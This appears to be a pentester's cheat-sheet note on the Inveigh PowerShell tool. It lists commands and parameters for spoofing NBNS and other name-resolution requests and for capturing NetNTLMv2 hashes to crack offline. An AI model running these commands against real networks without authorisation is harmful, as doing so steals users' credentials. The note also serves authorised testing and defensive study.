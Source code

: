 Inveigh is a very useful tool for intercepting and spoofing requests for domain resources. It requests authentication for network access and records the NetNTLMv2 hashes to be cracked offline with [[Hashcat]].

```powershell
Import-Module Inveigh.ps1 # Imports the Inveigh Powershell Module
Invoke-Inveigh -NBNS -HTTPS -IP <Local IP> -ConsoleOutput # Default listeners
Get-Inveigh # View all captured hashes
Clear-Inveigh # Clear all captured hashes
Watch-Inveigh # View hashes in real-time as they are captured 
Stop-Inveigh # Stop listening
# The hashes 
```

```powershell
-ConsoleOutput : Enable/Disable real time console output. If using this option through a shell, test to ensure that it doesn’t hang the shell. Medium and Low can be used to reduce output.
-NBNS : Enable/Disable NBNS spoofer.
-HTTPS : Enable/Disable HTTPS challenge/response capture. Warning, a cert will be installed in the local store. If the script does not exit gracefully, manually remove the certificate. This feature requires local administrator access.
-Proxy : Enable/Disable proxy server authentication captures.
-IP : Local IP address for listening and packet sniffing. This IP address will also be used for LLMNR/mDNS/NBNS spoofing if the SpooferIP parameter is not set.
```
